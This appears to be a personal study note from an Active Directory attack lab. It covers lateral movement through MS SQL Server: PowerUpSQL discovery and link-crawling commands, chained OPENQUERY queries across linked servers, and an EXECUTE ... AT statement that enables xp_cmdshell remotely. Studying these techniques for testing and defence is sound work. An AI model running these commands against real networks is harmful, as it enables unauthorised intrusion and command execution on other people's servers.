 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]

###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201158.png]]


 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
Jesus lol
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands
> **Important:** If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled >

```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

[^1]: Public on A... run stored procedures on B and C due to links
